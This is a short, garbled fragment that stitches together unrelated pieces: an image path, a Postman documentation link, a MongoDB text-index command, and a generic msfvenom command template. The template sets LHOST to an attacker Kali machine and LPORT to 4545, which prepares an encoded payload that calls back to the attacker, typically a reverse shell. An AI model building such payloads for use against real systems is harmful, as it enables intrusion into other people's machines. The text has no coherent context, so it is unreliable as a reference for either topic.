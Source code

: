 https://documenter.getpostman.com/view/20411215/UzXNUd1S
msfvenom -p payload -a architecture --platform platform LHOST=Kali's_IP LPORT=4545 -e encoder_used -i count_of_encoding -f file_type -o output_path 
Create Index:
db.items.createIndex({name:"text",desc:"text"});
